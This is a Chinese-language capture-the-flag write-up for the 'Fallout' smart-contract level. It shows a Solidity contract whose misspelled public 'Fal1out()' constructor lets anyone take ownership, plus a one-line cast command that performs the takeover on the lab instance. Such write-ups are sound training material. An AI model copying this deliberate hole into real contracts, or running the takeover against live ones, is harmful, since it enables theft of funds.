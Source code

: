 # Level 2 Fallout
實例地址：`0x8a2f9ac426fE9233b7dB695060f89bFe4a57AaCd`

##  題目說明
獲得下面合約的所有權來完成這一關

  可能會有用的資訊

*   Solidity、Remix IDE

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

##  POC
該合約使用 `Fal1out()` 可以將 Owner 進行轉移
```bash!
 cast send --account=Panda 0x8a2f9ac426fE9233b7dB695060f89bFe4a57AaCd "Fal1out()" --value=0
```